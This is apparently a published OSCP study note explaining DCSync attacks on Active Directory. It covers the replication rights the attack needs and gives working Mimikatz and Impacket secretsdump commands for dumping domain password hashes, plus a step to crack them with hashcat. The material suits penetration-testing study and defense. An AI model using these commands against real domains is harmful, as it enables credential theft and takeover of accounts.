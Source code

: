 ```yaml
---
{"dg-publish":true,"permalink":"/OSCP/n. Active Directory Attacks/6. DCSync Attack/"}
---
```


---------
- Domain controllers typically rely on more than one DC for redundancy.
- Directory Replication Service (DRS) Remote Protocol uses "replication" to synchronize.
- A domain controller may request an update for a specific object using the "IDL_DRSGetNCChanges" API.
- Issuing an object update request from a user with certain privileges will work even though its not coming from a DC.
- To launch a replication the user needs rights to:
	- _Replicating Directory Changes_
	- _Replicating Directory Changes All_ 
	- _Replicating Directory Changes in Filtered Set_
- Normally, Domain Admins, Enterprise Admins, and Administrator groups have these rights, which will let them perform a "dcsync attack" to request any user hashes.
-------------------------------------
### Local DCSync Attack with Mimikatz:
1. Start Mimikatz.
2. Perform dump:
```
lsadump::dcsync /user:corp\Administrator
```
3. Crack NTLM with hashcat.
------------
### Remote DCSync Attack with Impacket:
1. Run attack from Kali:
```
impacket-secretsdump -just-dc-user <targetuser> <domain/user-to-authenticate>:"<password-with-escaped-chars>"@<auth-user-ip>
```
Example:
```
impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.72
```

